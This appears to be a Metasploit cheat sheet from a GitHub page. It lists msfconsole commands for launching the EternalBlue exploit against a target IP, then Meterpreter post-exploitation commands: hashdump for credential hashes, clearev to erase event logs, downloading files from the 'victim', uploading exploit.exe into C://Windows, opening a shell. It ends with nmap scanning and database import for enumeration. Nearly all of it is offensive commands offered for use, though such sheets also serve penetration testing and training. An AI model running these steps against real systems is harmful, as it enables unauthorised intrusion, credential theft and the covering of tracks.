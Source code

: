 ```bash
workspace <WORKSPACE_NAME>
workspace -d <WORKSPACE_NAME>
```

```bash
# Payload Options
search eternalblue
use 0
# ^^ specify the identifier
set payload <PAYLOAD_NAME>
set RHOSTS <TARGET_IP>
run
# or
exploit
```

### Meterpreter

```bash
# meterpreter > <command>

background    #Switch from a Meterpreter session to the msfconsole command line 
cat
cd
checksum md5 /bin/bash
clearev
download Filename /root/****   #Download From victm machine to your machine 
edit
execute -f ifconfig
getenv
getenv PATH
getuid
hashdump
idletime
ifconfig
lpwd
ls
migrate
mkdir
ps
pwd
resource <file.txt>
rmdir
search -f *.txt
shell   #run a standard operating system shell 
sysinfo   #information about the victm Machine 
upload /****/exploit.exe C://Windows     #Upload from your machine to victm machine   
```

### Info Gathering & Enumeration

```bash
workspace -a <hostname_enum>
# NMAP Export in .XML
nmap -Pn -sV -O <TARGET_IP> -oX <XML_FILE_NAME>

# msfconsole
db_import <XML_FILE_NAME>

hosts
services
vulns
loot
creds
notes
```